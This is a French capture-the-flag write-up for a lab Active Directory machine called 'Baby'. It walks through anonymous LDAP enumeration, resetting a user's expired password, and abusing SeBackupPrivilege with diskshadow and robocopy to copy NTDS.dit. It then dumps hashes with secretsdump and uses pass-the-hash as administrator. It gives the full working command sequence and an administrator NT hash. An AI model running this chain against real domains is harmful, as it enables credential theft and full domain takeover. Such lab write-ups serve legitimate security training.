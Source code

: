 Nmap de la box :

```
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-12-13 01:11:48Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: baby.vl0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: baby.vl0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal 
5357/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Service Unavailable
Service Info: Host: BABYDC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

On tente de voir si on peut se connecter 

![i](Images/20241213023917.png)

On a une connexion valide sans identifiant.
On tente d'énumerer les users ou les shares avec --users pui --shares mais sans succès :

![i][20241213024456.png]

Par contre avec ldap on obtient un retour pertinent :

![i][20241213024523.png]

Ensuite on obtient quelque chose d'encore plus pertinent graĉe au module get-desc-users de netexec en utilisant cette commande :
nxc ldap 10.10.126.10 -u "" -p "" -M get-desc-users  

![i][20241213024833.png]

Le mdp qu'on obtient n'est pas valide pour aucun utilisateur
Par contre on repère un msg d'erreur intéressant pour l'utilisateur Caroline.Robinson :

![i][20241213031525.png]

Le mdp est valide pour elle apparement mais elle doit changer de mdp.

Grâce à cette commande on change son mdp à Password123 :
smbpasswd -r 10.10.126.10 -U caroline.robinson 

On vérifie que cela a marché et ensuite on regarde les privilèges associés à l'utilisateur en exécutant "whoami /priv" grâce à cette commande :

nxc winrm 10.10.126.10 -u caroline.robinson -p "Password123" -X "whoami /priv" 

![i][20241213061303.png]

On remarque directement le privilège SeBackupPrivilege.
On va utiliser cela pour récupérer le fichier NTDS.dit 

On met ça dans un fichier raj.dsh :
```
set context persistent nowriters
add volume c: alias raj
create
expose %raj% z:
```

On fait cette commande :
```
unix2dos raj.dsh
```

Puis sur la machine via evil-winrm :
```
cd C:\Temp
upload raj.dsh
diskshadow /s raj.dsh
robocopy /b z:\windows\ntds . ntds.dit
```

On aura aussi besoin du fichier system pour déchiffrer le NTDS.dit

```
reg save hklm\system c:\Temp\system
```

On télécharge les deux fichiers grâce à la commande download dans evil-winrm
```
download ntds.dit
download system
```

On utilise secretsdump pour pour extraire les hash des utilisateurs :
```
secretsdump.py -ntds ntds.dit -system system.hive LOCAL
```

![i][20241213062005.png]

On utilise le hash NT de l'administrateur pour récupérer le dernier flag grâce à cette commande :

 nxc winrm 10.10.126.10 -u administrator -H ee4457ae59f1e3fbd764e33d9cef123d -X "cat C:\Users\Administrator\Desktop\root.txt"
 
![i][20241213062049.png]
